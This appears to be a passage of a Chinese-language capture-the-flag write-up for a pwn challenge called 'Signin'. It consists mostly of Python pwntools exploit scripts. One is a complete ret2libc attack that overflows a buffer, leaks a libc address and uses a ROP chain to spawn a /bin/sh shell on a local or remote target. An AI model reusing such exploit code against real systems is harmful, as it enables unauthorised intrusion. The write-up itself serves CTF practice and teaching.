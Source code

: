 ```Python
payload2 += p64(0x404060)
payload2 += p64(0)
p.sendline(payload2)

p.interactive()
```

# Signin

普通的ret2libc

```Python
from pwn import *

context(arch="amd64", os="linux", log_level="debug")
local = True
if local:
    p = process("./signin")
else:
    ip, port = "node1.tgctf.woooo.tech:32634".split(":")
    p = remote(ip, port)

elf = ELF("./signin")
libc = ELF("./libc.so.6")

p.recvuntil(b'name.\n')
puts_plt = elf.plt["puts"]
puts_got = elf.got["puts"]
main = elf.symbols["main"]
pop_rdi = 0x401176
ret = 0x40101a

payload = b"A" * (0x70 + 0x8)
payload += p64(pop_rdi)
payload += p64(puts_got)
payload += p64(puts_plt)
payload += p64(main)

p.sendline(payload)
gdb.attach(p, 'b main')

puts_addr = u64(p.recv(6).ljust(8, b"\x00"))
libc_base = puts_addr - libc.symbols["puts"]
log.success(f"Libc base: {hex(libc_base)}")
log.success(f"puts address: {hex(puts_addr)}")
system = libc_base + libc.symbols["system"]
bin_sh = libc_base + next(libc.search(b"/bin/sh"))
payload = b"A" * (0x70 + 0x8)
payload += p64(ret)
payload += p64(pop_rdi)
payload += p64(bin_sh)
payload += p64(system)
pause()
p.sendline(payload)

p.interactive()
```
